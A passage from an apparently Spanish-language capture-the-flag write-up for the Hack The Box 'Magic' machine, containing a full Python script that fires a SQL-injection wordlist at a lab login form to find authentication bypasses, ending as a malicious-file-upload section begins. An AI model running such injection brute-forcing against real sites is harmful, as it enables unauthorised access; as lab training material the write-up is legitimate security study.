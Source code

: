 **Script completo:**
```python
#!/usr/bin/env python3
import requests,signal,sys
from pwn import *

#Variables globales
dic =[] 
p1 = log.progress("Inyección")

with open("/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt","r") as f:
	for linea in f:
		palabra = linea.strip()
		dic.append(palabra)

def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)

def ataque(inyeccion):
	url = "http://magic.htb/login.php"

	data1={
		"username":inyeccion,
		"password":inyeccion
	}

	r1 = requests.post(url,data=data1)
	if("Select Image to Upload" in r1.text):
		log.info("Inyección Correcta: {}".format(inyeccion))

if __name__ == "__main__":
	print("")
	for linea in dic:
		p1.status(linea)
		ataque(linea)

	p1.success("Ataque finalizado.")
```

![GIF AUTOPWN]({{ "/assets/img/Post/GIFS/MagicSQL.gif" }})
Nuevamente obtendremos las inyecciones correctas para lograr el bypass del login.

Continuemos.

## Subida de archivo malicioso.

![](https://lh4.googleusercontent.com/Tda_ppmgHprDqarVsbGdt_ilCywAUUHrPlPEvWCbm62EcTFcgzz_RFgoQ_va0yynYCMW7vkSdVJQyRty-ixbvPyN6FETwURDJuDOIY2xxYMsl1wt8GFiqtBlI5AydBlFfGhWa4-k)
